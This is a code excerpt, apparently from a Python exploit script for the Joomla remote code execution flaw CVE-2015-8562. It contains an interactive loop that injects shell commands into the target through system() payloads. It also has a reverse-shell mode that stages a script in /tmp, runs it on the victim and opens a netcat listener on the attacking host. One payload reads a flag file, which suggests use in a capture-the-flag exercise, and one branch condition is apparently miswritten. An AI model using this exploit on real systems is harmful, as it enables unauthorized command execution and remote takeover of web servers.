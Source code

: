```python
        print "[-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: {}".format(args.RHOST)
        print "[-] Dropping into shell-like environment to perform blind RCE"
        while True:
            command = raw_input('$ ')
            cmd_str = "system('{}');".format(command)
            pl = generate_payload(cmd_str)
            print get_url(args.RHOST, pl)

    # Spawn Reverse Shell using Netcat listener + Python shell on victim
    elif args.LPORT and args.LPORT:
        connection = "'{}', {}".format(args.LHOST, args.LPORT)

        # pentestmonkey's Python reverse shell one-liner:
        # Stage 1 payload Str
        #payload = "echo {} | base64 -d > /tmp/newhnewh.py".format(encoded_comm)
        payload = "cat /flag"
        print "[-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: {}".format(args.RHOST)
        print "[-] Uploading python reverse shell with LHOST {} and {}".format(args.LHOST, args.LPORT)
        # Stage 1: Uploads the Python reverse shell to "/tmp/newhnewh.py"
        pl = generate_payload("system('"+payload+"');")
        print get_url(args.RHOST, pl)
        # Spawns Shell listener using netcat on LHOST
        listener = subprocess.Popen(args=["gnome-terminal", "--command=nc -lvp "+args.LPORT])
        print "[+] Spawning reverse shell...."
        # Stage 2: Executes Python reverse shell back to LHOST:LPORT
        pl = generate_payload("system('python /tmp/newhnewh.py');")
        print get_url(args.RHOST, pl)
    else:
        print '[!] missing arguments'
        parser.print_help()


if __name__ == "__main__":
    main()
```